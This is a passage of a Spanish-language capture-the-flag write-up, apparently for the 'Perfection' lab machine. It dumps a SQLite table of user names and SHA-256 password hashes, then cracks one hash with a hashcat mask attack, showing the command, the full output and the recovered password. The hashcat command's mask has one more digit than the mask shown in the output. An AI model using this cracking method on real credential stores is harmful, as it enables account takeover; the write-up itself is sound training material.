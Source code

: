 Estos estudiantes antes eran parte de PupilPath, que haciendo OSINT podemos ver que cerró hace varios años por una brecha de seguridad en la que expusieron muchos datos PII (Personal Identifiable Info), ahora migraron a Jupiter Grades y han migrado sus credenciales al formato que podemos leer en el mail. Sabiendo esto, podemos armarnos un diccionario para cosas que encontremos por ahí; y justamente hay una base de datos que tiene contraseña en formato hash

```bash
susan@perfection:~$ cd Migration
susan@perfection:~/Migration$ ls
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
);
pupilpath_credentials.db
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

Tomaremos la de susan por probar. El formato de estos hashes puede ser reconocido como SHA2-256.

Para crear un diccionario fácilmente, podemos utilizar el modo 3 de Hashcat que nos permite hacer permutaciones con símbolos y una palabra predefinada, de este modo:

`hashcat -a 3 -m 1400 hash "susan_nasus_?d?d?d?d?d?d?d?d?d?d"`

Luego de un ratito de correr el hashcat, obtendremos la contraseña de Susan.

```bash
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Thu Jul  4 14:06:21 2024 (4 mins, 55 secs)
Time.Estimated...: Thu Jul  4 14:11:16 2024 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1106.9 kH/s (0.50ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324558848/1000000000 (32.46%)
Rejected.........: 0/324558848 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Host Generator + PCIe
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_803824210
Hardware.Mon.#1..: Temp: 72c Util: 47%

Started: Thu Jul  4 14:06:18 2024
Stopped: Thu Jul  4 14:11:17 2024
```
